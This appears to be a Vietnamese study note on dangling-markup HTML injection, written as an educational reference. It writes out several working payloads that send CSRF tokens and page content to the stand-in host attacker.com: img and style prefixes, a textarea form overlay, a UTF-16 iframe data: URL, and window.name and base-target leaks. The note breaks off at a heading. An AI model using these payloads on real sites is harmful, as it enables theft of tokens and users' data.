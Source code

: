 # HTML Injection 
## Dangling Markup 
- **Dangling Markup** xảy ra khi website chèn nội dung do người dùng cung cấp vào trong một thuộc tính HTML nhưng quên đóng dấu nháy hoặc thẻ.

=>  **Kết quả:** trình duyệt tiếp tục đọc phần HTML phía sau như là một phần của giá trị thuộc tính đó.
- Payload `<img src='//attacker-website.com?`
- HTMLSource trở thành 
```html
<img src='https://attacker.com?</div>
<input type="hidden" name="csrf" value="1337">
</form>
<p>I'm hacked? Oh no!</p>
```
=> Kết quả là trình duyệt sẽ gửi một request hình ảnh tới URL sau (đã được mã hóa URL) : `https://attacker.com/?%3C/div%3E%3Cinput%20type=%22hidden%22%20name=%22csrf%22%20value=%221337%22%3E%3C/form%3E%3Cp%3EI
`

=> Lấy được **CSRF**

- Tuy nhiên đối với Chromium nõ sẽ loại bỏ các url có kí tự xuống dòng (newline) ngược lại firefox thì không bỏ 
- Biện pháp 
    - dùng `<textarea>` vì nó chỉ bị đóng bới `</textarea>` hoặc **cuối tài liệu** 
    - Tạo 1 nút lớn để người dùng nhập vào và sẽ leak được data
- Payload
```html ==
<form action="https://attacker.com">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
<p>Your email: victim@example.com</p>
```
- Tuy nhiên với Chromium thì ngược lại 
    - ![alt text](image.png)
### Bypass newline detection
- Vậy làm sao để bypass được việc loại bỏ newline???
#### UTF-16 iframe/stylesheet content
- Nếu `<iframe>` được phép ghép với `src=data:` ta có thể  bypass nhờ `charset UTF-16` 

```html
Encoded prefix
<style>*{background-image: url(https://attacker.com?
```
[Encode as UTF-16](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')URL_Encode(true)&input=PHN0eWxlPip7YmFja2dyb3VuZC1pbWFnZTogdXJsKGh0dHBzOi8vYXR0YWNrZXIuY29tPw) 

▼
```html
Payload
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
```
▼

```html 
HTML Source
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
- Nội dung bên trong của `iframe` sau khi `inject`
- ![alt text](image-1.png)

#### Iframe name attribute
- Có cách khác nữa 
- Khi bạn có thể tạo `iframe` mà nguồn source là remote ; thuộc tính `name` của iframe có thể rò rỉ và được atk đọc thông wa `window.name` 
```html
Html Source
<iframe src="https://attacker.com" name='
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
▼
Ở phía console của atker 
```html
> window.name
'\n<p>Your email: victim@example.com</p>\n<footer>That'

```
=> `window.name` có thể chứa xuống dòng ngay cả trên Chromium, vì nó không phải **URL** hay **target**.
- Nếu CSP không cho phép bất kì nguồn nào bên ngoài và ta có thể nhúng `Iframe` => Chiếm luôn wuyền `Iframe` 

```html
HtmlSource
<object data="about:blank" name='
<!-- payload chứa dữ liệu nhạy cảm ở đây -->
```
```html
HtmlSource
<iframe id="iframe" src="https://target.tld/dangling-object"></iframe>
<script>
  iframe.onload = () => {
    const object = iframe.contentWindow[0];
    object.location = "about:blank";  // Navigate to our same-origin

    const interval = setInterval(() => {
      object.origin;  // When it becomes same-origin
      clearInterval(interval);
      alert(object.name);  // Leak its name (kept after navigation)
    })
  }
</script>
```
- Cách khác kết hợp `<base>`  với `target` 
- Khi `base@target` bị `clobber`, mọi link trên trang (kể cả link do attacker chèn) khi người dùng click sẽ được mở với `window.name` = giá trị của `base@target` 
```html
<!-- che phủ toàn màn hình để dụ click -->
<a href="https://attacker.com/leak" style="position:fixed;top:0;left:0;width:100%;height:100%"></a>

<!-- chèn base target chứa newline / payload -->
<base target='
```

### Leak via Referer

